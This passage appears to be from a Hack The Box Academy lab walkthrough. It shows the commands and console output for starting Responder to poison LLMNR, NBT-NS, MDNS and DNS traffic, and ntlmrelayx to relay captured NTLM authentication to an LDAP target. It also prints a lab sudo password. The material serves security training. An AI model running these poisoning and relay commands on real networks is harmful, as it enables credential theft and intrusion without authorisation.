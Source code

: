Students need to start `Responder.py` using `sudo` located in the `tools/Responder` directory in "poisoning" mode by only specifying the `-I` parameter followed by the `ens192` interface and configuring the tool to poison every broadcast request/traffic.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```

Subsequently, within the second established SSH session will have to start `ntlmrelayx` using `sudo` specifying the `-t` option for the target with the protocol, `-smb2support` option providing `SMBv2` support for hosts that are requiring it, `--no-da` to not attempt to add a Domain Admin, `--no-acl` to disable ACL related attacks:

Code: shell

```shell
sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl
```

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl
[sudo] password for htb-student: HTB_@cademy_stdnt!
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
```